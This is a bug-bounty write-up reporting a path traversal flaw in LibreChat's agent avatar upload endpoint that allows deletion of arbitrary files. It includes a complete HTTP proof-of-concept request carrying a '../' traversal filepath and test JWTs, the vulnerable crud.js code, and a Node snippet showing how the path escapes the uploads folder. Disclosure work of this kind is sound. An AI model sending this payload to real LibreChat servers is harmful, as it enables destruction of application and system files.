 ```yaml
---
layout: post
title: [Duplicate](#) Path Traversal that leads to remove other files with node permission in danny-avila/librechat
description: BugBounty Write-up
tags: huntr bugbounty path-traversal      
category: bugbounty 
---   
```

      
 I reported path traversal vulnerability in danny-avila/librechat to the huntr bugbounty platform. 
  
# 📜 Description     
    
A path traversal attack (also known as directory traversal) is a security vulnerability that allows attackers to manipulate file or directory paths in order to access unintended files or directories outside the intended folder structure. When a web application provides insufficient validation or sanitization of user inputs, attackers can exploit this weakness by crafting requests that traverse directories to access sensitive system files or perform unauthorized actions like deleting files.  
         
# 🕵️ Proof of Concept    

I created the file in /app/test/hacked for testing if the file removes or not. The file had the permission of node.     
     
```http
POST /api/agents/avatar/asdf HTTP/1.1
Host: localhost:3080
Content-Length: 10352
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsInVzZXJuYW1lIjoiYWFhYWEiLCJwcm92aWRlciI6ImxvY2FsIiwiZW1haWwiOiJhYWFhYUBuYXZlci5jb20iLCJpYXQiOjE3MjkxMzgzNzcsImV4cCI6MTcyOTEzOTI3N30.Drs4845G6BvwlTsbPmIU97COOEpUYnb1QPNDxczl77c
Accept-Language: ko-KR,ko;q=0.9
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqD8OKhALyMzAPlIU
Origin: http://localhost:3080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3080/c/new
Accept-Encoding: gzip, deflate, br
Cookie: refreshToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsImlhdCI6MTcyOTEzODM3NywiZXhwIjoxNzI5Njk4NjI0fQ.QnMNZfYNdC-kKdfjxeOWihbiF053uWNiPPsnWJU75m0
Connection: keep-alive

------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="file"; filename="avatar.png"
Content-Type: image/png

PNG Binary
------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="avatar"

{
    "source":"local",
    "filepath":"/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked"
}
------WebKitFormBoundaryqD8OKhALyMzAPlIU--
```     
     
This problem occurs in /api/server/services/Files/Local/crud.js. It's because there is no verification logic for the path.    
    
```javascript
if (file.filepath.startsWith(`/uploads/${req.user.id}`)) {
    const basePath = file.filepath.split('/uploads/')[1];
    const filepath = path.join(uploads, basePath);
    await fs.promises.unlink(filepath);
    return;
}
```    
          
## Test Code    
     
```javascript
const path = require('path');

const basePath = "/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked".split("/uploads/")[1];
console.log(basePath);
console.log(path.join("/uploads/", basePath)); // OUTPUT: /app/test/hacked
```

# 🔐 Mitigations    
     
you can use the regex function to extract the last element of path or check the path if the dot includes in path.          
     
# 📚 References      
- ![OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) 
- ![PortSwigger - Path Traversal](https://portswigger.net/web-security/file-path-traversal)     
      
# Impact
An attacker could perform actions not intended by application like delete arbitrary files on file system including application source code or configuration and critical system files.         